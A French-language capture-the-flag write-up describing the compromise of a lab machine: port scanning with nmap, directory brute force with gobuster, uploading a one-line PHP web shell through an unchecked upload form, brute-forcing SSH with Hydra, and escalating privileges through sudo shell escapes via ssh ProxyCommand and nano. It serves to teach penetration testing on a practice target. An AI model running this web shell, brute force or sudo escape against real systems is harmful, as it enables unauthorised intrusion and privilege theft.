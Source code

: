 # Write-up CTF Facile 1 

## Etape 1 :  Analyser le Réseau

Premièrement on effectue une analyse du réseau de la machine afin de voir quels ports sont ouverts : 

```bash
nmap 172.30.150.47
```

Résultat :

![Resultat nmap](1.PNG)

On constate qu'il y a le port SSH d'ouvert et un service web, allons voir de ce coté ! 

![Resultat nmap](2.PNG)

On constate que c'est la page par défaut de Apache, nous allons voir s'il n'y a pas des fichiers ou des redirections cachées avec l'outil ` gobuster `

```sh
gobuster dir -u http://172.30.150.47/ -w /usr/share/wordliste/dirbuster/directory-list-2.3-medium.txt -x .php,.html -t 40
```

| Paramètre | Signification |
|------------|---------------|
| -u          |   url du site          |
| -w          |   liste de mots à utiliser             |
| -x          |  extensions de fichier à regarder              |


Il y a 3 url possibles et accessibles. uploads/ qui est un répertoire, upload.php, et index.html sur lequel nous sommes déjà. Allons voir du côté de upload.php.

![Resultat nmap](3.PNG)

Nous arrivons sur une page basique où nous pouvons upload des fichiers. On va voir s'il accepte des scripts php ou fait attention à l'extension du fichier. 

![Resultat nmap](4.PNG)

## Etape 2 : Exécution de commandes sur le système

On va essayer d'upload le script php suivant, qui permettra d'effectuer des commandes bash dans l'URL du site, pour voir si cela fonctionne.

```php
<?php echo "<pre>"; system($_GET["cmd"]); _halt_compiler() ?>
```
On se rend compte que cela fonctionne, comme montré sur la capture d'écran ci-dessous. 

![Resultat nmap](5.PNG)

On voit qu'il y a 3 utilisateurs qu'on va devoir attaquer de par leur nom. (ctf-challenge)

## Etape 3 : Brute Force de connexion SSH

On va essayer de bruteforce le premier utilisateur via hydra : 

```sh
hydra -l ctf-challenge-01 -P /usr/share/wordlist/rockyou.txt -f -t 50 -V 172.30.150.47 ssh
```

| Paramètre | Signification |
|------------|---------------|
| -l         |   nom d'utilisateur         |
| -p          |   liste de mots à utiliser             |
| -f          |  se stoppe dès qu'il a trouvé le mdp              |
| -t         |  nombre de threads           |
| -V         |  URL         |

On trouve ainsi le mot de passe `hellokitty`, et on peut se connecter en SSH.

![Resultat nmap](6.PNG)

## Etape 4 : Elévation des privilèges

On regarde si par hasard on ne pourrait pas exécuter des commandes avec `sudo`. On se rend compte que l'on peut utiliser des commandes `sudo /bin/ssh` via l'utilisateur **ctf-challenge-01-1**. Après une recherche Internet, on trouve l'exploit suivant :

```sh
sudo -u ctf-challenge-01-1 /bin/ssh -o proxyCommand=';sh 0<&2 1>&2' x
```

On arrive donc sur le terminal en tant que **ctf-challenge-01-1**, et on refait la même procédure avec le `sudo -l`

![Resultat nmap](7.PNG)

Cette fois-ci, on peut exécuter en tant que **ctf-challenge-01-2** via `sudo` la commande `sudo /bin/nano`. On va essayer d'ouvrir des fichiers, notament un fichier ***flag.txt***, que l'on retrouve sur le home de l'utilisateur **ctf-challenge-01**, et on obient ainsi le flag.

La commande a excécuter : 

```sh
sudo -u ctf-challenge-01-2 /bin/nano /home/ctf-challenge-01/flag.txt
```

![Resultat nmap](8.PNG)